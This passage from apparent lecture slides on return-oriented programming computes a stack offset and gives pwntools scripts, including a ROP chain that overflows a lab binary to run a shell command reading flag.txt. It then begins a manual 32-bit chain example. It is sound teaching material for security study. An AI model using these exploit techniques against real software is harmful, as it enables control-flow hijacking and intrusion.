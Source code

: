    ```text
   0x7fffffffdf78: 0x00400470      0x00000000      0xffffdf90      0x00007fff
   0x7fffffffdf88: 0x004005ce      0x00000000      0x00000000      0x00000000
   0x7fffffffdf98: 0xf7df20b3      0x00007fff      0xf7ffc620      0x00007fff
   ```
   In this layout, return address `0x4005ce` is located at a=`0x7fffffffdf88` and the buffer (stores user input `0x41414141`) starts at b=`0x7fffffffdf40`, thus the offset is a-b = 0x48 = 72 bytes.
6. Write a script to generate the payload.
   ```python
   from pwn import *

   retaddr_offset = 72
   rop_chain = b'A' * retaddr_offset

   # call make_cat_command(buf, flag_filename);
   rop_chain += p64(0x400663) # set rdi gadget
   rop_chain += p64(0x601080) #    rdi = arg1: buf
   rop_chain += p64(0x400661) # set rsi/r15 gadget
   rop_chain += p64(0x601040) #    rsi = arg2: "flag.txt"
   rop_chain += p64(0)        #    r15 = dummy
   rop_chain += p64(0x400557) # call make_cat_command

   # call run_shell(buf);
   rop_chain += p64(0x400663) # set rdi gadget
   rop_chain += p64(0x601080) #    rdi = arg1: buf
   rop_chain += p64(0x400584) # call run_shell

   p = process('./chal6')
   p.send(rop_chain)
   p.interactive()
   ```
</div>

---

## Code reuse attack - ROP: do it easier with pwntools

- Writing a ROP chain is a tedious task
    - In 32bit environment: consider stack adjustment after call
    - In 64bit environment: consider setting argument registers
- Can this be automated?
    - Answer: yes, using pwntools module [ROP](http://docs.pwntools.com/en/stable/rop/rop.html)

---

## Code reuse attack - ROP: do it easier with pwntools (x86-**32**)

Automate 32bit ROP chains

<div class=twocolumn>

- Writing manually
  ```python
  from pwn import *

  chain = b'A' * 72
  # build chain for func1(buf, 12345)
  chain += p32(0x400100) # func1
  chain += p32(0x400567) # gadget: discard 2
  chain += p32(0x600500) # param1 (buf)
  chain += p32(12345)    # param2 (12345)
  # build chain for func2(buf, 67890)
  chain += p32(0x400200) # func2
  chain += p32(0)        # dummy
  chain += p32(0x600500) # param1 (buf)
  ```